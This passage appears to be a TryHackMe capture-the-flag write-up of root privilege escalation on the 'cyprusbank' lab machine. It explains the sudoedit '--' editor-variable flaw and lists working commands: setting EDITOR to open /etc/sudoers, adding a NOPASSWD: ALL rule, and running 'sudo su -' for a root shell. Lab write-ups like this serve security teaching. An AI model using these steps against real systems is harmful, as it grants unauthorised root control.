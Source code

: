 Essentially, `sudoedit` allows users to choose their editor using environment variables such as `SUDO_EDITOR`, `VISUAL`, or `EDITOR`. Since the values of these variables can be not only the editor itself but also the arguments to pass to the chosen editor, `sudo` uses `--` while parsing them to separate the editor and its arguments from the files to open for editing.

This means that by using the `--` argument in the editor environment variables, we can force it to open files other than those allowed in the `sudoedit` command we can run. Consequently, since we can execute `sudoedit` as `root` with `sudo`, we can edit any file we want as `root`.

To use this vulnerability for privilege escalation, there are many files we could write to. In this case, we can simply choose to write to the `/etc/sudoers` file to grant ourselves full `sudo` privileges.

We can exploit the vulnerability as follows:

```
web@cyprusbank:~/app$ export EDITOR="nano -- /etc/sudoers" 
web@cyprusbank:~/app$ sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

As we can see, we were able to open the `/etc/sudoers` file with `nano`.

Now, by making the addition of `web ALL=(ALL) NOPASSWD: ALL` to the file, we can grant our current user full `sudo` privileges :

![Pasted image 20250720142333.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250720142333.png)

After saving the file and closing both files, we can see the changes made to our `sudo` privileges :

```
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
    (ALL) NOPASSWD: ALL
```

Finally, by simply running `sudo su -`, we can get a shell as the `root` user and read the root flag at `/root/root.txt` :

```
web@cyprusbank:~/app$ sudo su -
root@cyprusbank:~# ls
clean.sh  root.txt
root@cyprusbank:~# cat root.txt
THM{4nd_uR_p4ck4g3s}
```

Pwned !! 